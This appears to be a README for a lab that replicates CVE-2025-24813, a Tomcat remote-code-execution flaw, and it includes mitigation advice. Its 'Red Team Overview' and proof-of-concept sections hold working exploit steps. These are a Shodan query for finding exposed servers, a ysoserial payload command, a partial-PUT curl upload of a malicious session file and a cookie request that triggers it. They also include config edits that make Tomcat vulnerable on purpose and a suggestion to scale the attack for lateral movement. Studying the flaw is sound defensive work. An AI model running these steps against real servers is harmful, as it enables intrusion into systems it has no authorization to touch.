


# CVE-2025-24813 Tomcat Exploit Replication

## Overview
This repository directory provides an environment to replicate a vulnerable Apache Tomcat 9.0.90 setup, as used in our experiments with CVE-2025-24813, a critical remote code execution (RCE) vulnerability disclosed on March 10, 2025. The setup mirrors a local configuration, including specific JARs, custom ports (shutdown: 8009, HTTP: 8085), and file-based session persistence, enabling exploitation via a malicious session file upload and deserialization trigger.

## Apache Tomcat Background
Apache Tomcat, developed by the Apache Software Foundation, is an open-source Java servlet container and web server, implementing Java Servlet and JSP specifications. The DefaultServlet handles static resources, and session management supports file-based persistence, a key factor in CVE-2025-24813’s exploitability.

## CVE-2025-24813 Details
- **Affected Versions**: Tomcat 9.0.0.M1 to 9.0.98, 10.1.0-M1 to 10.1.34, 11.0.0-M1 to 11.0.2
- **Severity**: Critical (CVSS ~9.8, due to RCE potential)
- **Description**: "Path Equivalence: ‘file.Name’ (Internal Dot)" allows RCE, information disclosure, or content injection via partial PUT requests when DefaultServlet writes are enabled (`readonly=false`), partial PUT is supported (default), and file-based session persistence is used with deserialization-vulnerable libraries (e.g., Commons Collections).
- **Exploitation**: Upload a crafted session file (e.g., via PUT to `/defhawk.session`) and trigger deserialization with a GET request (e.g., `Cookie: JSESSIONID=.defhawk`), executing arbitrary code if a gadget chain is present.


## Root Cause Analysis
The root cause of CVE-2025-24813 lies in Tomcat’s handling of partial PUT requests, a feature for resumable uploads. When processing these requests, Tomcat replaces path separators (e.g., `/` or `\`) with dots (`.`), creating temporary files like `sessions.exploit.session` from `/sessions/exploit.session`. This path equivalence, intended to prevent traversal, backfires when:
- **DefaultServlet Writes**: Enabled with `readonly=false` (default is `true`), allowing file uploads.
- **Partial PUT**: Supported by default, permitting attackers to upload fragments of malicious session files.
- **Session Persistence**: `PersistentManager` with `FileStore` deserializes session files from disk during session loading.

If the classpath includes deserialization-vulnerable libraries (e.g., `commons-beanutils-1.9.4.jar` with `xalan.jar`), attackers can craft payloads (e.g., via ysoserial) exploiting gadget chains like `BeanComparator` to execute code. The lack of strict path normalization and insufficient checks on partial PUTs enable this bypass.

# Red Team Overview

- **Target Scoping**: We can focus on a multi-part process where we can check the respective version & see if partial put is enabled on that given target using **Shodan** and **Nmap** respectivelty:
```bash
port:8080 tomcat "Server: Apache-Coyote/1.1" ("Tomcat-11.0" "Tomcat-10.1" "Tomcat-9.0") "HTTP/1.1 200"
```
```bash
nmap -p 8080 --script http-methods -sV target_ip
```

- **Vulnerability Check**: We confirm exploitability with a test **PUT** request. We can check session persistence by inspecting responses or configs, leveraging a `readonly=false` and `PersistentManager` setup:

```bash
curl -X PUT -d "test" http://target:8085/test.txt
```

- **Payload Delivery**: In order for a successful execution, we have to craft a payload using **ysoserial**. we can upload it via **PUT**, exploiting path equivalence:

```bash
java -jar ysoserial.jar CommonsCollections1 "touch /tmp/exploit.txt" > payload.ser
```

```bash
curl -X PUT -H "Content-Range: bytes 0-5/100" --data-binary @payload.ser http://target:8085/defhawk.session
```

- **Execution Trigger**: Send a **GET** request with the session ID to trigger deserialization. We expect a **500 error**, indicating successful RCE:
```bash
curl "http://target:8085/" -H "Cookie: JSESSIONID=.defhawk"
```

- **Exploitation Scaling**: We can automate the process with **Python** (e.g., `exploit.py`) or **Burp Suite** for future testing, taking advantage of the misonfigured targets, ideal for **lateral movement** in networks with Tomcat deployments.
  


## Proof of Concept(PoC)
Here’s how we can set up and execute the exploit locally to demonstrate CVE-2025-24813:

- **Configure `web.xml`**:
    - Edited `/opt/tomcat/conf/web.xml` to enable writes in the DefaultServlet:
    ```xml
        <servlet>
            <servlet-name>default</servlet-name>
            <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
            <init-param>
                <param-name>debug</param-name>
                <param-value>0</param-value>
            </init-param>
            <init-param>
                <param-name>listings</param-name>
                <param-value>false</param-value>
            </init-param>
            <init-param>
              <param-name>readonly</param-name>
              <param-value>false</param-value>
            </init-param>
            <load-on-startup>1</load-on-startup>
        </servlet>
    ```
- **Configure `context.xml`**:
    - Modified `/opt/tomcat/conf/context.xml` to enable file-based session persistence.       Here we used `PersistentManager` with `FileStore` to store sessions on disk,            enabling deserialization of uploaded files:
    ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <Context>
            <WatchedResource>WEB-INF/web.xml</WatchedResource>
            <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
            <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>
            <Manager className="org.apache.catalina.session.PersistentManager">
                <Store className="org.apache.catalina.session.FileStore" />
            </Manager>
        </Context>
    ```

- **Generate the Payload**: 
    - This generates a serialized payload that executes `touch /tmp/exploit.txt` when deserialized. It creates a malicious session file using `ysoserial` with the `CommonsCollections1` gadget chain:
    ```bash
    java -jar ysoserial.jar CommonsCollections1 "touch /tmp/exploit.txt" > payload.ser
    ```

- **Encode to Base64**: 
    - Converted the binary payload to Base64 for use in the exploit script:
    ```bash
    base64 payload.ser > payload.txt
    ```
- **Execute the Exploit**: 
    - The script uploads `defhawk.session` via `PUT` and triggers deserialization with a `GET` request. We can execute the python script with:
    ```bash
    python3 exploit.py
    ```
    <br>

    
- **Verify Execution**: 
    - We can check for the exploit’s success by seeing if our file got created, as we see by running the following that `/tmp/exploit.txt` was created, indicating successful RCE:
    ```bash
    ls /tmp
    ```
    <br>

    

    

## Mitigation Strategies
To mitigate CVE-2025-24813, organizations should adopt the following strategies, as recommended by the NVD and additional context: 

- **Upgrade**: Update to **Tomcat 9.0.99, 10.1.35, or 11.0.3** for patches (see [Apache release notes](https://tomcat.apache.org/)).

- **Disable Writes**: Set `readonly=true` in `conf/web.xml` under `DefaultServlet`:
```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>true</param-value>
</init-param>
```
- **Block Partial PUT**: Disable via Tomcat configuration (if supported) or use a **WAF** (e.g., ModSecurity) to filter `Content-Range` headers.

- **Change Persistence**: Switch to `JDBCStore` in `context.xml`:

```xml
<Manager className="org.apache.catalina.session.JDBCStore" />
```

- **Remove Libraries**: Audit and remove unused JARs (e.g., `commons-collections-3.2.1.jar`) from `/opt/tomcat/lib/`.

- **Monitor**: Enable detailed logging (`FINEST` in `logging.properties`) and watch for `PUT` attempts or `500` errors.

These steps help mitigate errors in a general Tomcat sertup and align with best practices from web sources like **Apache’s security advisories**.

  